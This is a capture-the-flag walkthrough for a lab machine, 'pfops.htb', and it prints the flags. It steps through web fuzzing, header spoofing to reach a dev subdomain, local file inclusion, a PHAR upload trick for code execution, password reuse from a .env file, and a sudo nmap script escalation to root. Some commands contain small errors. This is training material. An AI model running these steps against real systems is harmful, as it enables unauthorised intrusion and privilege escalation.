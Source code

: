 ![](assets/images/banner.png)

<img src="assets/images/htb.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">pfops.htb</font>

​		27<sup>th</sup> October 2024

---

### Description:

This machine takes advantage of misconfigurations in file uploads, LFI exploitation, and Linux privilege misconfigurations, simulating an environment where attackers discover credentials and escalate privileges on a simulated internal server and gain root execution sudo abuse

### Difficulty:

`easy`

### Flags:

User: `htbmeetupcmr{PH4R_LF1_2_Rc3_ch411}`

Root: `htbmeetupcmr{NM4p_2_r007_0wn4g3}`

---

# Enumeration

1. **Network Scanning**:
   - Scan the machine’s IP to identify open ports:
     ```bash
     rustscan -a 16.16.145.247 -- -sV -sC -oN scan_results 16.16.145.247.txt
     ```
   - Open Ports:
     - **Port 80 (HTTP)**: Web server with unknown host redirection
     - **Port 22 (SSH)**: Potential SSH access

2. **Host Discovery**:
   - Accessing the machine’s IP in a browser causes a redirection to **pfops.htb**.
   - Add `pfops.htb` to `/etc/hosts`:
     ```plaintext
      #htb-MEETUP
      16.16.145.247 pfops.htb
     ```

3. **Web Enumeration on pfops.htb**:
   - If you did not follow the rules and never made your requests with the correct user-agent format you get a 403 forbidden page

   - The main page on **http://pfops.htb** shows a basic landing page with no obvious functionality.

   ![alt text](image.png)

   - Fuzz directories using `ffuf` to reveal a hidden `/dev/` 
     ```bash
     ffuf -u http://pfops.htb/FUZZ -w `fzf-wordlists` -H "User-Agent: htbmeetupcmr  bl4ckarch" -x http://127.0.0.1:8080    
    
     ```
   - Further fuzzing in the directory reveals the **.git** folder 
   - Dump `.git` contents using `git-dumper` and inspect the files to find `.htaccess`, which lists access requirements set on the apache server.

   - Doing some subdomain enumeration reveal a dev subdomain but with a 403 forbbiden page
   - upon analysing the content of the .htaccess file
      ```plaintext
         <IfModule mod_rewrite.c>
            RewriteEngine On
            # Restrict access based on X-Forwarded-For to allow only 192.168.100.0/24
            RewriteCond %{HTTP:X-Forwarded-For} !^192\.168\.100\.[0-9]{1,3}$
            RewriteRule ^ - [F]
            # Further restrict based on custom header for dev access
            RewriteCond %{HTTP:Admins} !^Tom$
            RewriteRule ^ - [F]
         </IfModule>

      ```
      - Here the access to the dev subdomain is conditioned with a request comming from an internal host in the lan network **192.168.100.0/24** 
      - Furthermore it is restricted to a particular header **Admins: Tom** 
     ```plaintext
     X-Forwarded-For: 192.168.100.0/24
     Admins: Tom
     ```

4. **Accessing dev.pfops.htb**:
   - Add `dev.pfops.htb` to `/etc/hosts`:
     ```plaintext
     16.16.145.247 dev.pfops.htb
     ```
   - Set custom headers to gain access:
     ```plaintext
     X-Forwarded-For: 192.168.100.1
     Admins: Tom
     ```
     - You can do this with a firefow brower extension https://addons.mozilla.org/en-US/firefox/addon/modify-header-value/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search 
     by simply adding all your custom headers request and all request wiil be done with these headers

   - The page reveals a file upload form to check the integrity of XML configuration files.

---

# Foothold

1. **LFI Exploitation**:
   - The `page` parameter in **dev.pfops.htb** has a hidden parameter, since the webpage is still under developement we assume it's a mistake from the Développers, to check for this hidden parameter we Fuzz and check for the actual param
     ```plaintext
     ffuf -u 'http://dev.pfops.htb/?FUZZ=index.php' -w `fzf-wordlists` -H "User-Agent: htbmeetupcmr  bl4ckarch" -x http://127.0.0.1:8080  -mc 500,200,403 -H 'X-Forwarded-For: 192.168.100.1' -H 'Admins: Tom' -fs 2469
      ```
     ![alt text](image-2.png)
     
     - Getting the 500 error code while trying to get the server's index page make and error since it's 500 this tell us the server tried to include himself and therefore making a infinite loop and hence the error 
     - From there we try to test for a Local file inclusion vulnerability at it workss
     
     ![alt text](image-1.png)
     
     - The actual vulnerable parameter is page which is therefore vulnerable to an LFI
      ![alt text](image-3.png)

2. **Bypassing Upload Restrictions**:

   - **dev.pfops.htb** permits `.txt` uploads, which allows bypassing restrictions using a **PHAR archive**.
   - Create a PHP info function to a file, `test.php`:
   - Create a zip named **test.zip** containing the `test.php`
   - Then rename the **test.zip** to **test.txt**
     ```bash
     echo "<?php phpinfo();?> >> test.php
     zip -r test.zip test.php
     mv test.php test.txt
     ```
   - upload the file to the server 
   - Trigger the shell with the `phar://` php filter to trigger execution:
     ```plaintext
     GET /?page=phar://uploads/e3c421cb45d2fc24b3219293fa0a9386/test.txt/test.php
     ```
     ![alt text](image-4.png)
   - Hence Remote code execution 
   - We then put a revershell php and repeat the process to get a shell
     
     ![alt text](image-5.png)

---

# Lateral Movement

1. **Database Credentials**:
   - Running **ss -tulpn** shows us a list of port on which the server is listenning
   we actually see port 3306 and port 8000 we actually get a python web server.
   - navigating throught the /var/www directory reveals `internal_app` which contains a `.env` file containing database credentials:
     
   - The `.env` password grants SSH access as **tom** due to password reuse.

     ![alt text](image-6.png)

2. **SSH to tom**:
   - Log in to **tom** via SSH put ssh is restricted to public key only:
     ```bash
     ssh tom@pfops.htb
     ```
      ![alt text](image-7.png)
   - While on our rev shell we do a su tom and enter the password and we are logged as tom
   ```shell
         tom@ip-172-31-43-97:/var/www/internal_app$ id
         id
         uid=1001(tom) gid=1001(tom) groups=1001(tom)
         tom@ip-172-31-43-97:/var/www/internal_app
   ```
---

# Privilege Escalation

1. **Sudo Privilege on Nmap**:
   - The `tom` user has limited sudo access to **nmap**. 
      
      ![alt text](image-8.png)
      https://gtfobins.github.io/gtfobins/nmap/#sudo
     ```bash
      TF=$(mktemp)
      echo 'os.execute("/bin/sh")' > $TF
      sudo nmap --script=$TF
     ```
   - This command executes as root, granting full system access.

     ![alt text](image-9.png)

---
